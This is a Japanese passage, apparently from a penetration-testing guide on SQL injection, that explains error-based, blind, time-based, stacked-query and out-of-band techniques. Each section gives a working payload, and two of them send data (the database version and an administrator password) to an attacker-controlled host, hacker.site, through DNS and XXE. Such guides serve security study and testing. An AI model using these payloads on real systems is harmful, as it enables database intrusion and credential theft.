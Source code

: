より包括的な洞察については、[Healing Blind Injections](https://medium.com/@Rend_/healing-blind-injections-df30b9e0e06f)で利用可能な完全な記事を参照してください。

## エラーベースの悪用

何らかの理由で**クエリ**の**出力**を見ることができないが、**エラーメッセージ**は**見ることができる**場合、これらのエラーメッセージを使用してデータベースからデータを**エクスフィルトレート**することができます。\
ユニオンベースの悪用と同様の流れに従って、DBをダンプすることができるかもしれません。
```sql
(select 1 and row(1,1)>(select count(*),concat(CONCAT(@@VERSION),0x3a,floor(rand()*2))x from (select 1 union select 2)a group by x limit 1))
```
## Blind SQLiの悪用

この場合、クエリの結果やエラーを見ることはできませんが、クエリが**true**または**false**の応答を**返す**ときに**区別**することができます。なぜなら、ページ上の内容が異なるからです。\
この場合、その動作を悪用してデータベースを文字ごとにダンプすることができます:
```sql
?id=1 AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables = 'A'
```
## エラー盲目的SQLiの悪用

これは**以前と同じケース**ですが、クエリからの真/偽の応答を区別する代わりに、SQLクエリの**エラー**があるかどうかを**区別する**ことができます（おそらくHTTPサーバーがクラッシュするため）。したがって、この場合、正しく文字を推測するたびにSQLエラーを強制することができます:
```sql
AND (SELECT IF(1,(SELECT table_name FROM information_schema.tables),'a'))-- -
```
## 時間ベースのSQLiの悪用

この場合、ページのコンテキストに基づいてクエリの**応答**を**区別**する方法は**ありません**。しかし、推測した文字が正しい場合、ページが**読み込むのに時間がかかる**ようにすることができます。この技術は、[タイミングでの確認](./#confirming-with-timing)のために以前に使用されているのを見たことがあります。
```sql
1 and (select sleep(10) from users where SUBSTR(table_name,1,1) = 'A')#
```
## スタッククエリ

スタッククエリを使用して、**複数のクエリを連続して実行**できます。後続のクエリが実行される間、**結果**は**アプリケーションに返されません**。したがって、この技術は主に**ブラインド脆弱性**に関連して使用され、2番目のクエリを使用してDNSルックアップ、条件付きエラー、または時間遅延をトリガーできます。

**Oracle**は**スタッククエリ**をサポートしていません。**MySQL、Microsoft**、および**PostgreSQL**はそれをサポートしています: `QUERY-1-HERE; QUERY-2-HERE`

## バンド外の悪用

**他の**悪用方法が**機能しなかった**場合、**データベースが**情報をあなたが制御する**外部ホスト**に流出させるように試みることができます。たとえば、DNSクエリを介して:
```sql
select load_file(concat('\\\\',version(),'.hacker.site\\a.txt'));
```
### XXEによるアウトオブバンドデータ流出
```sql
a' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.hacker.site/"> %remote;]>'),'/l') FROM dual-- -
```
## 自動化された悪用
